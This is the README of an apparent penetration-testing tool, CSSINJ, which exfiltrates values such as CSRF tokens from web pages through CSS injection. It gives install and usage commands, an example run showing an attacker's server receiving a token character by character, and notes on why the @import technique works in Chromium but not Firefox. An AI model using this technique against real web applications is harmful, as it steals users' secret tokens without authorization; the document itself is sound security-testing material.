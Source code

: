 ```yaml
---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ**, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install -r requirements.txt
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 CSSINJ.py [-h] -H HOSTNAME -p PORT -i IDENTIFIER
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-i, --identifier`     | CSS identifier (CSS selector) to extract data |

### Example  

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -i input.csrf
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[✓] Attacker's server started on 127.0.0.1:5005
[✓] Connection from ::1
[ⓘ] Token is M
[ⓘ] Token is My
[ⓘ] Token is MyS
...
```

[✓] The token is : MySecreteValue
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- [ ] Add injection parameters
- [ ] Implement automatic detection of CSS injection vulnerabilities
- [ ] Add an option to save results to a file
- [ ] Add custom payload
- [ ] Allow multiple CSS selectors for simultaneous extraction

## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.  
